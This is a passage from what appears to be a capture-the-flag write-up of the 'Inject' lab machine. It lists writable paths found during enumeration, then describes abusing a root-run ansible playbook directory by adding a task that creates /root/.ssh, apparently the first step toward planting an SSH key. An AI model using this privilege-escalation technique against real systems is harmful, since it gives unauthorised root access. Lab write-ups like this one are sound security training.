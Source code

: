 ```asm
/var/local
/var/lock
/home/phil
/home/phil/.bashrc
/home/phil/.bash_history
/home/phil/.cache
/home/phil/.cache/motd.legal-displayed
/home/phil/.profile
/home/phil/.viminfo
/home/phil/.vim
/home/phil/.vim/.netrwhist
/home/frank/.bash_history
/usr/lib/systemd/system/screen-cleanup.service
/usr/lib/systemd/system/lvm2.service
/usr/lib/systemd/system/rcS.service
/usr/lib/systemd/system/x11-common.service
/usr/lib/systemd/system/cryptdisks.service
/usr/lib/systemd/system/multipath-tools-boot.service
/usr/lib/systemd/system/hwclock.service
/usr/lib/systemd/system/rc.service
/usr/lib/systemd/system/sudo.service
/usr/lib/systemd/system/cryptdisks-early.service
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/share/fonts
```

That directory had an ansible playbook file for automating tasks

![](/img/Inject_-_Seasonal_9e3607466f6a4ad49fada783b796669f/Untitled_11.png)

From the enumeration, we were able to anticipate that any tasks created in this directory will be executed, hence to replicate it, I created two tasks,

This is for creating an `.ssh` directory is `root` home directory

```xml
---
- name: Create directory in root folder
  hosts: localhost
  become: yes

  tasks:
    - name: Create directory
      file:
        path: /root/.ssh
        state: directory
        mode: '0755'
      register: create_result

    - name: Display create result
      debug:
        var: create_result
```
